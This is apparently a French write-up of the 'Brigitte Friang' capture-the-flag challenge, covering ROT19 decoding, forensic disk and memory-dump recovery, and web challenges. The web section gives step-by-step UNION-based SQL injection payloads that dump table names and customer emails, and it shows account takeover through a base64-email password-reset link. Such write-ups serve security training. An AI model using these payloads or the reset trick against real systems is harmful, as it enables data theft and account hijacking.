# Challenge Brigitte Fiang



## Sommaire

- 1. [Préambule](#preambule)
- 2. [S3curConv](#s3curconv)
    + 2.1. [Crypto](#crypto) 
    + 2.2. [Web](#web)
        * 2.2.1. [Stockos](#stockos)
        * 2.2.2. [Evil Air](#evil-air)
    + 2.3. [Algo](#algo) 
    + 2.4. [Forensic](#forensic)
        * [access.log](#access-log)
        * [evil_country_landscape.jpg](#evil-country-landscape-jpg)
___ 

# Préambule

## Chall 0: HTML source code

En inspectant les sources de [https://challengecybersec.fr/](https://challengecybersec.fr/) on tombe sur le commentaire suivant: 

```html
<!--/static/message-secret.html-->
```



Lorsqu'on se rend  l'adresse [https://challengecybersec.fr/static/message-secret.html](https://challengecybersec.fr/static/message-secret.html), on obtient le texte suivant:


"Zp cvbz whyclulg h spyl jl tlzzhnl, j'lza xbl cvbz wvbclg ylqvpukyl s’vwlyhapvu «Iypnpaal Myphun». Ylqvpnulg-uvbz yhwpkltlua.

Iypnpaal Myphun lza bul ylzpzahual, qvbyuhspzal la ljypchpul myhujhpzl. Lssl lza ull sl 23/01/1924 h Whypz, lssl h 19 huz zvbz s'vjjbwhapvu svyzxb'lssl lza yljyball wbpz mvytll jvttl zljylahpyl/jopmmylbzl why bu hnlua kb IJYH, Qlhu-Myhujvpz Jsvbla klz Wlyybjolz hsphz Nhspsll jolm kb Ibylhb klz vwlyhapvuz hlypluulz (IVH) kl sh Ylnpvu T (Jval kb Uvyk, Mpupzalyl, Pukyl la Svpyl, Vyul, Zhyaol, Svpyl pumlyplbyl, Thpul la Svpyl, Tvyipohu, Clukll). Iypnpaal Myphun bapspzl whymvpz klz mvbshykz wvby jhjoly klz jvklz. Jvtwslalg s’BYS hclj s’pumvythapvu xbp lza jhjoll khuz jl tlzzhnl.

Zbpal h s’hyylzahapvu la sh ayhopzvu kl Wplyyl Thubls, Iypnpaal Myphun lza hyylall why sh Nlzahwv. Lssl lza islzzll why ihssl lu aluahua kl z’lumbpy la lza jvukbpal h s’Ovwpahs kl sh Wpapl. Klz ylzpzahuaz alualyvua kl sh spilyly thpz zhuz zbjjlz. Lssl lza avyabyll la ul kvuulyh whz k'pumvythapvuz. U’vbisplg whz sh ihyyl vispxbl. Lssl lza luzbpal lucvfll khuz sl jhtw kl Yhcluziybjr.

Hwylz zvu ylavby kl klwvyahapvu, lssl whyapjpwl h sh jylhapvu kb Yhzzltisltlua kb wlbwsl myhuçhpz (YWM). Lssl pualnyl sh wlapal lxbpwl, hbavby k'Hukyl Thsyhbe, xbp ch wylwhyly sl kpzjvbyz mvukhalby kl Zayhzivbyn lu 1947 la slz lsljapvuz slnpzshapclz kl 1951.

Lssl yluayl h s'VYAM, la klcplua jvyylzwvukhual kl nblyyl. Lssl viaplua zvu iylcla kl zhba lu whyhjobal la hjjvtwhnul klz jvtthukvz kl whyhjobapzalz lu vwlyhapvu kbyhua sh nblyyl k’Pukvjopul. Lssl yhjvual zvu lewlyplujl khuz Slz Mslbyz kb jpls (1955). K'hbaylz hnluaz zvua zby sl jvbw hb tvtlua vb ql cvbz whysl. Slz tlpsslbyz k'luayl cvbz zl kvuulyvua yluklg-cvbz h s'Lbyvwlhu Jfilydllr h Yluulz wvby bul yltpzl kl wype. Ylzvsclg sl wsbz k'lwylbclz hchua sh mpu kl jlaal tpzzpvu la alualg kl nhnuly cvayl wshjl whytp s'lspal! Why sh zbpal, lssl jvbcyl s’lewlkpapvu kl Zblg, sh nblyyl klz Zpe Qvbyz la sh nblyyl kb Cpla Uht. Lssl wyluk wvzpapvu lu mhclby k'bul hbavuvtpl kb qvbyuhspztl khuz sl zlycpjl wbispj jl xbp sbp chba k'layl spjlujpll kl s'VYAM.

Lssl ljypa wsbzplbyz spcylz la altvpnul kl s'lunhnltlua klz mlttlz khuz sh Ylzpzahujl"

A en croire le titre de la page, il s'agit très certainement d'un **chiffrement de César**:



## Chall 1: Caesar Cipher (ROT19 )

Sur [https://rot13.com/](https://rot13.com/), on se rends compte qu'il s'agit d'un message chiffré en **rot19**:



"Si vous parvenez a lire ce message, c'est que vous pouvez rejoindre l’operation «Brigitte Friang». Rejoignez-nous rapidement.

Brigitte Friang est une resistante, journaliste et ecrivaine francaise. Elle est nee le 23/01/1924 a Paris, elle a 19 ans sous l'occupation lorsqu'elle est recrutee puis formee comme secretaire/chiffreuse par un agent du BCRA, Jean-Francois Clouet des Perruches alias Galilee chef du Bureau des operations aeriennes (BOA) de la Region M (Cote du Nord, Finistere, Indre et Loire, Orne, Sarthe, Loire inferieure, Maine et Loire, Morbihan, Vendee). Brigitte Friang utilise parfois des foulards pour cacher des codes. Completez l’URL avec l’information qui est cachee dans ce message.

Suite a l’arrestation et la trahison de Pierre Manuel, Brigitte Friang est arretee par la Gestapo. Elle est blessee par balle en tentant de s’enfuir et est conduite a l’Hopital de la Pitie. Des resistants tenteront de la liberer mais sans succes. Elle est torturee et ne donnera pas d'informations. N’oubliez pas la barre oblique. Elle est ensuite envoyee dans le camp de Ravensbruck.

Apres son retour de deportation, elle participe a la creation du Rassemblement du peuple français (RPF). Elle integre la petite equipe, autour d'Andre Malraux, qui va preparer le discours fondateur de Strasbourg en 1947 et les elections legislatives de 1951.

Elle rentre a l'ORTF, et devient correspondante de guerre. Elle obtient son brevet de saut en parachute et accompagne des commandos de parachutistes en operation durant la guerre d’Indochine. Elle raconte son experience dans Les Fleurs du ciel (1955). D'autres agents sont sur le coup au moment ou je vous parle. Les meilleurs d'entre vous se donneront rendez-vous a l'European Cyberweek a Rennes pour une remise de prix. Resolvez le plus d'epreuves avant la fin de cette mission et tentez de gagner votre place parmi l'elite! Par la suite, elle couvre l’expedition de Suez, la guerre des Six Jours et la guerre du Viet Nam. Elle prend position en faveur d'une autonomie du journalisme dans le service public ce qui lui vaut d'etre licenciee de l'ORTF.

Elle ecrit plusieurs livres et temoigne de l'engagement des femmes dans la Resistance."

## Chall 2: Chat

> **Completez l’URL avec l’information qui est cachee dans ce message.**

On constate dans le code HTML que certaines lettres sont en gras:



`/joha` est l'equivalent de `/chat` en rot19.



___

# S3curConv


## Crypto



___

## Web

### Stockos



Le couple identifiant / mot de passe "admin - admin" permet de se connecter sur **Stockos**:



Dans l'onglet "[stock](https://challengecybersec.fr/4e9033c6eacf38dc2a5df7a14526bec1/stock)", il y a un champs qui permet de faire une recherche. Si l'on injecte le caractere "'", le message suivant apparait:



Il est donc possible de faire une **injection SQL**!

A priori la requete en backend doit ressembler a ca:

```sql
SELECT id_colis, objet, status, section, client FROM stocks
WHERE objet LIKE '%<PAYLOAD>%' ORDER BY section ASC
```

Nous allons donc proceder de maniere iterative:

`%' ORDER BY status ASC --`



`%' ORDER BY status ASC #`



Si on utilise ce payload: `%' ORDER BY section DESC #`, l'affichage des colonnes est effectivement inversee. 

En ajoutant un `SELECT` a notre payload `%' ORDER BY section DESC;  SELECT * FROM information_schema.tables #`, le resultat du `SELECT` n'est pas affiche. De ce fait, nous allons devoir proceder a un `UNION` pour combiner les resultats.

Si on utilise ce payload: `' UNION SELECT * FROM information_schema.tables#`, on observe l'erreur suivante:



Il faut donc ajouter et/ou supprimer des colonnes.

Listons les noms des tables:

`' UNION SELECT table_name,1,2,3,4 FROM information_schema.tables#`



> Les tables inherentes a MYSQL ne sont pas dans la capture d'ecran

Listons les noms des colonnes de la table **customer**: 

`' UNION SELECT column_name,1,2,3,4 FROM information_schema.columns WHERE TABLE_NAME='customer'#`



Bien maintenant, listons les emails de la table **customer**:

`' UNION SELECT email,1,2,3,4 FROM customer#`

Et on tombe sur l'adresse mail: `agent.malice@secret.evil.gov.ev`

### Evil Air

Maintenant l'objectif est de faire une resevation sur le site d'[Evil Air](https://challengecybersec.fr/35e334a1ef338faf064da9eb5f861d3c/),

2 fonctionnalites sont disponibles sur le site:

1. Creation d'un compte
2. Mot de passe oublié

Lorsqu'on cree un compte _(ici avec l'adresse email `bonsoirbrigittefriang@yopmail.com`)_ puis qu'on remplit le formulaire de la page "Mot de passe oublié", on recoit un e-mail de ce type:



On reconnait le modele suivant: `http://challengecybersec.fr/35e334a1ef338faf064da9eb5f861d3c/reset/<BASE64_EMAIL>`

En effet:



Ainsi, il suffit de remplacer le `Ym9uc29pcmJyaWdpdHRlZnJpYW5nQHlvcG1haWwuY29t` par le base64 de `agent.malice@secret.evil.gov.ev` et le tour est joue.

### Liens utiles

- [Did You Order a SQL Injection?](https://www.nccgroup.com/us/about-us/newsroom-and-events/blog/2019/march/did-you-order-a-sql-injection/)
- [SQL List All Tables](https://www.sqltutorial.org/sql-list-all-tables/)
- [**PayloadsAllTheThings**: SQL injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

___

## Algo



___

## Forensic

### access.log


Si on cherche "Evil" dans le fichier `access.log`, on tombe sur cette IP:



En soumettant `179.97.58.61` sur le chat, **Alphonse Bertillon** nous réponds:



### evil_country_landscape.jpg

De nombreux fichiers sont présents dans cette image:



Apres avoir extrait les fichiers de l'image JPG, il est possible de recuperer un dump Windows via:

```bash
$ losetup /dev/loop0 part2.img 
$ losetup /dev/loop1 part3.img 
$ mdadm --assemble /dev/md1 /dev/loop0 /dev/loop1
mdadm: Found some drive for an array that is already active: /dev/md/user-XPS-15-9570:6
mdadm: giving up.
$ ls -la /dev/md/
total 0
drwxr-xr-x  2 root root   60 Oct 31 22:02 .
drwxr-xr-x 18 root root 3480 Oct 31 22:40 ..
lrwxrwxrwx  1 root root    8 Oct 31 22:02 user-XPS-15-9570:6 -> ../md127
$ ls -la /dev/md127
brw-rw---- 1 root disk 9, 127 Oct 31 22:02 ../md127
$ mkdir /mnt/md127
$ mount /dev/md127 /mnt/md127
$ ls -laH /mnt/md127/dump.zip 
-rw-r--r-- 1 root root 305119359 Oct  6 11:35 /mnt/md127/dump.zip
$ unzip /mnt/md127/dump.zip
Archive:  dump.zip
  inflating: dump.vmem               
  inflating: dump.vmem.sha256        
$ ls -lah
total 1.3G
drwxr-xr-x  2 root root 4.0K Nov  1 15:32 .
drwxr-xr-x 39 root root 4.0K Nov  1 15:27 ..
-rw-rw-r--  1 root root 1.0G Oct  5 13:13 dump.vmem
-rw-rw-r--  1 root root   64 Oct  5 13:50 dump.vmem.sha256
-rw-rw-r--  1 root root 291M Nov  1 15:31 dump.zip
```

Le fichier `dump.vmem` peut etre analysee avec [**volatility**](https://github.com/volatilityfoundation/volatility).
___
